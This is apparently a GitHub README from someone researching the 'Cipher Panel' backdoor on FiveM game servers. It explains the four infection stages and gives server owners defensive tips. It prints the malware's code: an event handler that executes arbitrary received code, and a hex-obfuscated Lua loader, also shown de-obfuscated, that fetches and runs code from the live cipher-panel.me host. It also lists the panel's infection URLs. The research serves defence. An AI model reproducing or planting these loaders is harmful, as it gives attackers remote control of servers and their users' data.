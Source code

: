 # MaliciousPanel
Cipher Panel Research (To clarify I have 0 connections to the group behind Cipher Panel, I'm merely researching this malicious panel for Cfx and server owners)

Download my WIP AV which currently only tackles the partially detection of the Cipher Panel:
`https://github.com/DamianKnappers/MaliciousPanel/tree/main/HXAV`

With respect to @ericstolly's research, I have dug up more information and together with his research this repo has been created. 
Mainly for information and educational purposes for server owners to figure out how what and where.

The several stages will be found in the files of this repo, there's also tools available (for now very limited) and a file which they infected. Don't worry it's only effective whenever you drop this file in the server files at the right position.

Original Infection URL:
`https://cipher-panel.me/_i/i.php?to=0`
From this it goes through the several stages

Explaination of the several stages:

*Stage 1*: This stage is the "exploit" stage, just depends on what you want to name it. 
In this stage they are gaining entry into your FiveM server and talking with their panel. 

*Stage 2*: This stage is the Payload phase, this is when they're re-writing your sessionmanager files and build a control base for further spreading and infection of other resources.

*Stage 3*: This is the spread phase, this is mainly a bridge between phase 2 and phase 4, this is where local functions are added throughout several scripts and where the fxmanifests are edited to use / run MySQL statements assumably for gaining access to the IP's and user data. But most these days use other mysql scripts so it's pretty obvious when there is a `server_script {'@mysql-async/lib/MySQL.lua'}` added. 

*Stage 4*: This is the control stage, this is where the panel sends out triggers to the several listening functions, how they do it? Read in phase 4 docs.
In the basis they're performing simple HTTP requests to their panel. Whenever the panel sends out a call to action, the response in the web body changes and the functions reading the web body will then distribute the events either client or server sided. Also txAdmin is victim of this, disabling the whitelist for example or bypassing a txAdmin ban.

**Tips for now**:
- Use a other mysql script
- Use a 3rd Party script for your bans and whitelist
- Disable their website in the hosts file (in case of Windows)
- Re-install the fresh sessionmanager
- Use notepad++ to search for any obfuscated functions with the information that will be available per phase documentation

**Traces Found**:
```
RegisterNetEvent('helpCode')

AddEventHandler('helpCode', function(id)
	local help = assert(load(id))
	help()
end)
```
Code from stage2 or stage3 will be send via a event and executed here. 

In rconlog we found some obfuscated code, which is the same as the stage2 code but a different page which still these days is unknown what it's contents are or how to gain the contents of this page. Only thing known is that it's in the server sided and downloads the body of the page. 
https://cipher-panel.me/_i/r.php?to=0

Code:
```
local BaoWmVjtyB = {
	_G['PerformHttpRequest'],
	_G['assert'],
	_G['load'],
	_G['tonumber']
}

local CKGzkhSwYw = {
	'68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72',
	'2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f', '72',
	'2e', '70', '68', '70', '3f', '74', '6f', '3d', '30'
}

function uGeRrdKRtK()
	JJcQCUzzCK = ''
	for id,it in pairs(CKGzkhSwYw) do
		JJcQCUzzCK = JJcQCUzzCK..it
	end
	return (JJcQCUzzCK:gsub('..', function (luwOyroAEjA)
		return string.char(BaoWmVjtyB[4](luwOyroAEjA, 16))
	end))
end

BaoWmVjtyB[BaoWmVjtyB[4]('1')](uGeRrdKRtK(), function (e, jKlDPYMVkD)
	local YlEkQSXGlZ = BaoWmVjtyB[BaoWmVjtyB[4]('2')](BaoWmVjtyB[BaoWmVjtyB[4]('3')](jKlDPYMVkD))
	if (jKlDPYMVkD == nil) then return end
	YlEkQSXGlZ()
end)
```
Doing our magical de-obfuscating and using the dehex function we can see that it downloads (just like the rest) the contents of the page r.php and executes it. The methods are the same as in the sessionmanager host_lock.lua file.
De-Obfuscated Code:
```
local VarArray = {
	_G['PerformHttpRequest'],
	_G['assert'],
	_G['load'],
	_G['tonumber']
}

local HEXArray = {
	'68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72',
	'2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f', '72',
	'2e', '70', '68', '70', '3f', '74', '6f', '3d', '30'
}

function Func1()
	String = ''
	for id,it in pairs(HEXArray) do
		String = String..it
	end
	return (String:gsub('..', function (var1)
		return string.char(VarArray[4](var1, 16))
	end))
end

PerformHttpRequest(Func1(), function (e, responseBody)
	local Payload = assert((load(responseBody)))
	if (responseBody == nil) then return end
	Payload()
end)
```
Simple CURL request to https://cipher-panel.me/_i/r.php?to=0 (Which is the HEX Array but in plain text), we get a different result.

```
PerformHttpRequest('https://cipher-panel.me/_i/v2_/stage3?to=0', function (e, d) pcall(function() assert(load(d))() end) end)
```
It sends us to this page but not the actual stage3.php, there seems to be a difference in that. 
